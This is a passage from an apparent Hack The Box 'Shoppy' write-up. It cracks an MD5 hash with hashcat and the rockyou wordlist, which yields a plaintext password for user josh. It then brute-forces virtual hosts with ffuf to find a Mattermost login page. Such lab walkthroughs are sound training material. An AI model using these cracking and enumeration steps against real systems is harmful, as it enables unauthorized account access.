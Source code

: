 Using `hashcat` to crack obtained `md5` hash.
```bash
$sudo hashcat -m 0 hash /usr/share/wordlists/rockyou.txt

$sudo hashcat -m 0 --show hash  
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```
we were able to crack hash for the user josh.Tried to use this credential to login into the SSH account of user josh  but got login failed.

### Vhost Discovery via ffuf

Using `ffuf` to enumerate `vhosts`. 
```bash
$sudo ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" -mc 200 
        /'___\  /'___\           /'___\ 
       /\ \__/ /\ \__/  __  __  /\ \__/ 
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\ 
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/ 
         \ \_\   \ \_\  \ \____/  \ \_\ 
          \/_/    \/_/   \/___/    \/_/ 
       v1.3.1 Kali Exclusive <3 
________________________________________________ 
 :: Method           : GET 
 :: URL              : http://shoppy.htb 
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt 
 :: Header           : Host: FUZZ.shoppy.htb 
 :: Follow redirects : false 
 :: Calibration      : false 
 :: Timeout          : 10 
 :: Threads          : 40 
 :: Matcher          : Response status: 200 
________________________________________________ 
mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1]
```
Vhost Bruteforce found a new host `mattermost.shoppy.htb`.
Let us add it to our hosts file.
```bash
$cat /etc/hosts
10.10.11.180 shoppy.htb mattermost.shoppy.htb
```
on browsing  `http://mattermost.shoppy.htb` it redirects us to a login page.
